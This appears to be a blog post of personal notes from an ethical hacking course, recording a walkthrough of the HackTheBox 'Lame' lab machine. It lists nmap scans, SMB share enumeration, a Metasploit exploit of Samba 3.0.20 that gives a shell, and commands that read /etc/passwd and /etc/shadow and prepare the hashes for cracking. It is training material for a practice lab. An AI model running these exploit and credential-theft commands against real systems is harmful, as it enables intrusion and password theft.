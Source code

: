 ```yaml
---
layout:     post
title:      TCM PEH Hacking Lame Notes
date:       2021-03-12
summary:    TheCyberMentor's Practical Ethical Hacking course, HackTheBox Lame notes
categories: certs
thumbnail: cogs
tags:
 - htb
 - certs
---
```



<h2 class="code-line" data-line-start=0 data-line-end=1 ><a id="HTB_Lame_0"></a>HTB Lame</h2>
<p class="has-line-data" data-line-start="1" data-line-end="2">Again, recording commands to derive methodology</p>
<p class="has-line-data" data-line-start="3" data-line-end="14">nmap -A -T4 -p- 10.10.10.3<br>
OR<br>
nmap -T4 -p- 10.10.10.3<br>
Then<br>
nmap -A -T4 -p21,80,443,etc 10.10.10.3<br>
Is much faster<br>
Noted port 21 anonymous login is allowed<br>
Noted port 139 version<br>
Noted port 445 version<br>
Noted port 3632 version<br>
Noted Ubuntu OS</p>
<hr>
<p class="has-line-data" data-line-start="15" data-line-end="28">smbclient -L \\10.10.10.3\<br>
enter<br>
Noted IPC$<br>
Noted Admin$<br>
Noted tmp<br>
smbclient \\10.10.10.3\tmp<br>
enter<br>
ls<br>
dead end<br>
smbclient \\10.10.10.3\opt<br>
and<br>
smbclient \\10.10.10.3\ADMIN$<br>
can’t authenticate, dead end</p>
<hr>
<p class="has-line-data" data-line-start="29" data-line-end="33">Googled samba version 3.0.20-debian exploit<br>
Noted rapid7 link<br>
Noted exploit-db link<br>
Read rapid7 link</p>
<hr>
<p class="has-line-data" data-line-start="34" data-line-end="53">systemctl postgresql enable<br>
systemctl postgresql start<br>
msfconsole<br>
use exploit/multi/samba/usermap_script<br>
options<br>
set rhost 10.10.10.3<br>
show targets<br>
exploit<br>
whoami<br>
hostname<br>
pwd<br>
cd home<br>
ls<br>
cd …/<br>
ls<br>
locate root.txt<br>
updatedb<br>
locate root.txt<br>
locate user.txt</p>
<hr>
<p class="has-line-data" data-line-start="54" data-line-end="60">cat /etc/passwd<br>
cat /etc/shadow<br>
Copy /etc/passwd, paste into file<br>
Copy /etc/shadow, paste into another file<br>
unshadow /path/to/passwd path/to/shadow<br>
See “cracking linux password hashes” videos for more info</p>


